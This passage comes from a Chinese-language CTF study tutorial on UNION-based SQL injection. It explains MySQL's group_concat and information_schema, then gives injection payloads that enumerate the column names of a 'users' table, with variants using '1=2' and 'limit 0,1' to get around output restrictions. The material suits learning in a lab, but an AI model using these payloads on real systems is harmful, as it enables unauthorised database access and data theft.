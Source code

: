 注：图仅供参考，可能有错漏

> 需要了解：
>
> **group_concat()**，意思是把所有查出来的东西放到一起，一列的所有行结果都放到一起。这里最好是用上这个group_concat，有的时候题目环境会限制输出，比如我们查到了100行内容，但是只输出一行，这时候就用到了这个group_concat
>
> **information_schema.tables**，在MySQL中，information_schema看作是一个信息数据库，其中保存着关于MySQL服务器所维护的所有其他数据库的信息，如数据库名称、数据库的表，表栏的数据类型与访问权限等。在INFORMATION_SCHEMA中，有数个只读表，他们实际上是视图，而不是基本表。因此无法看到与之相关的任何文件。
>
> 1. SCHEMATA表：提供了当前mysql实例中所有数据库的信息，是show databases的结果取之于此表
> 2. TABLES表：提供了关于数据库中表的信息（包括视图），详细标书了某个表属于哪个schema，表类型，表引擎，创建时间等。是show tables from schemaname的结果就取之于此表
> 3. COLUMNS表：提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息，是show columns from schemaname.tablename的结果取之于此表。



9.获取表中的字段名

```mysql
SELECT first_name, last_name FROM users WHERE user_id = '
# 以下是输入的内容
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #';
```

![image-20241211205111554](/img/ctfLearnimage-20241211205111554.png)

注：图仅供参考，可能有错漏



10.此外，还要考虑如果题目环境如果做了限制，查询到了100条，只显示一条这种情况

```mysql
SELECT first_name, last_name FROM users WHERE user_id = '
# 以下是输入的内容
1' and 1=2
union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #';
```

只要让union左边的表没有东西，就会直接显示右边的表的第一行内容

![image-20241211205217160](/img/ctfLearnimage-20241211205217160.png)

注：图仅供参考，可能有错漏



11.如果不让用group_concat函数怎么办？我们可以用limit 0 ,1(从第0行开始，输出1条内容)

```mysql
SELECT first_name, last_name FROM users WHERE user_id = '
# 以下是输入的内容
1' and 1=2
union select 1,group_concat(column_name) from information_schema.columns where table_name='users'
limit 0,1
#';
```
